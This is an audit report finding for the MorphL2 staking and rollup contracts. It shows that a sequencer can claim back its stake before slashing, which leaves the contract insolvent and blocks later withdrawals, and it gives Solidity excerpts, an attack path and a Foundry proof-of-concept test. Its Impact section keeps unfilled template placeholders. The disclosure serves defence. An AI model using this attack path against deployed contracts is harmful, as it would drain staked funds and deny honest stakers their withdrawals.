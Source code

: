 Shambolic Banana Barbel

High

# Sequencer can avoid being slashed for invalid batch

### Summary

The config ranges for `withdrawalLockBlocks` and `proofWindow` are such that a sequencer may have the ability to withdraw their funds before being slashed, which can lead to insolvency for `L1Staking.sol` and a DOS of all future withdrawal claims.

### Root Cause

In `L1Staking.sol`, we have a `withdrawalLockBlocks` variable, which represents how long after a sequencer has exited that they are able to claim their funds. In the [config](https://docs.google.com/spreadsheets/d/1KDQ8LkB53yw7f0m8a0LCTIdyiANjKyqC-sKUQEQGSf8/edit?gid=0#gid=0), it is specified that this value should be in the range `> 2 * finalize time`.

In `Rollup.sol`, we have a `finalizationPeriodSeconds` value (how long until an unchallenged block is finalized) and a `proofWindow` value (how long after the start time a proof can be submitted). The default values are 1 day for finalization period, and 2 days for proof window.

These values do not have a guarantee that `proofWindow` will always be sufficiently longer than `withdrawalLockBlocks`, which is required to ensure that there will never be a situation when a sequencer can withdraw their funds before being slashed.

For example, if `withdrawLockBlocks ~= 2 * finalize time`, if a sequencer submits an invalid proof and immediately withdraws, their funds will be available to claim in 2 days, while the proof window will also be 2 days.

If they are able to withdraw their funds first, they will receive their full stake back. Then, when `proveState()` is called to slash them, we call the following (where sequencerBitmap is the bitmap of their position in the `stakingSet` array):
```solidity
uint256 reward = IL1Staking(l1StakingContract).slash(sequencersBitmap);
```
On the `L1Staking` contract, [we perform the following](https://github.com/sherlock-audit/2024-08-morphl2/blob/main/morph/contracts/contracts/l1/staking/L1Staking.sol#L217-L246):
```solidity
function slash(uint256 sequencersBitmap) external onlyRollupContract nonReentrant returns (uint256) {
    address[] memory sequencers = getStakersFromBitmap(sequencersBitmap);

    uint256 valueSum;
    for (uint256 i = 0; i < sequencers.length; i++) {
        if (withdrawals[sequencers[i]] > 0) {
            delete withdrawals[sequencers[i]];
            valueSum += stakingValue;
        } else if (!isStakerInDeleteList(sequencers[i])) {
            // If it is the first time to be slashed
            valueSum += stakingValue;
            _removeStaker(sequencers[i]);
            // remove from whitelist
            delete whitelist[sequencers[i]];
            removedList[sequencers[i]] = true;
        }
    }

    uint256 reward = (valueSum * rewardPercentage) / 100;
    slashRemaining += valueSum - reward;
    _transfer(rollupContract, reward);

    emit Slashed(sequencers);
    emit StakersRemoved(sequencers);

    // send message to remove stakers on l2
    _msgRemoveStakers(sequencers);

    return reward;
}
```
If another staker has replaced the withdrawn staker, then their address will be returned from `getStakersFromBitmap` and this honest staker will be forcibly removed and lose their stake.

If no other staker has replaced the withdrawn staker (the more likely scenario), `address(0)` will be returned. In `_removeStaker()`, this will add `address(0)` to the `deleteList`, which will later DOS in `_cleanStakerStore()` when we try to calculate `stakerIndexes[deleteList[i]] - 1`:

```solidity
function _cleanStakerStore() internal {
    uint256 i = 0;
    while (i < deleteList.length) {
        if (deleteableHeight[deleteList[i]] <= block.number) {
            // clean stakerSet
            delete stakerSet[stakerIndexes[deleteList[i]] - 1];
            delete stakerIndexes[deleteList[i]];

            // clean staker info
            delete stakers[deleteList[i]];

            // clean deleteList
            delete deleteableHeight[deleteList[i]];
            // @ok this will skip some, because they'll be moved to i and never checked
            // - nvm, it doesn't increment i unless it's lower
            deleteList[i] = deleteList[deleteList.length - 1];
            deleteList.pop();
        } else {
            i++;
        }
    }
}
```

### Internal Preconditions

1. `withdrawlBlocksLocked` must be less than, equal to, or just slightly more than `proofWindow`.

### External Preconditions

None

### Attack Path

1. Sequencer calls `commitBatch()` with a fraudulent batch.
2. They immediately call `l1Staking.withdraw()` to start the withdrawal process.
3. They are challenged.
4. As soon as the withdrawal process is over, they withdraw their funds.
5. When the challenge period ends, they are no longer there to be slashed. Instead, either an innocent user is slashed, or `address(0)` is added to the delete list in a way that DOS's all future withdrawal claims.

### Impact

The {affected party} suffers an approximate loss of {value}. [The attacker gains {gain} or loses {loss}].

### PoC

The following test can be added to `L1Staking.t.sol` to demonstrate the attack:
```solidity
function testPapa_withdrawBeforeSlash() external {
    // set up the values in ranges in config
    // withdrawalLockBlocks already set to 3 blocks = 36 seconds, base values around that
    hevm.startPrank(multisig);
    rollup.updateProofWindow(36);
    rollup.updateFinalizePeriodSeconds(18);
    assert(l1Staking.withdrawalLockBlocks() * 12 >= rollup.finalizationPeriodSeconds());
    hevm.deal(address(l1Staking), STAKING_VALUE);

    // add alice to whitelist
    address[] memory add = new address[](1);
    add[0] = alice;
    l1Staking.updateWhitelist(add, new address[](0));

    // alice register
    Types.StakerInfo memory aliceInfo = ffi.generateStakerInfo(alice);
    hevm.deal(alice, STAKING_VALUE);
    hevm.startPrank(alice);
    l1Staking.register{value: STAKING_VALUE}(aliceInfo.tmKey, aliceInfo.blsKey);

    // let's save alice's bitmap for future use
    uint aliceBitmap = l1Staking.getStakerBitmap(alice);

    // now alice proposes an invalid batch, which will get her slashed in proofWindow
    l1Staking.withdraw();

    // her invalid batch can be challenged at start time + proof window, but let's say 1 extra block passes
    uint blocksPassed = (rollup.proofWindow() / 12) + 1;
    uint challengeTime = block.timestamp + blocksPassed * 12;
    uint challengeBlock = block.number + blocksPassed;
    hevm.warp(challengeTime);
    hevm.roll(challengeBlock);

    // the balance of the contract at this point is solvent (2 ETH)
    assertEq(address(l1Staking).balance, 2 * STAKING_VALUE);

    // as soon as it can be challenged, alice can get out
    // this claims back her 1 ETH
    l1Staking.claimWithdrawal(alice);
    hevm.stopPrank();

    // right after, she is slashed, this claims another ETH
    hevm.prank(l1Staking.rollupContract());
    l1Staking.slash(aliceBitmap);

    // now we've given up more than STAKING_VALUE (exact amount depends on reward)
    assertLt(address(l1Staking).balance, STAKING_VALUE);

    // even worse, we are now DOS'd from claimWithdrawal because
    // cleanStakingStore will fail once we try to clean out address(0)
    hevm.roll(block.number + l1Staking.withdrawalLockBlocks() + 1);
    hevm.prank(multisig);
    hevm.expectRevert(stdError.arithmeticError);
    l1Staking.cleanStakerStore();
}
```

### Mitigation

Ensure that `withdrawalLockBlocks` is always greater than `proofWindow` plus some buffer, rather than `2 * finalizationPeriodSeconds`.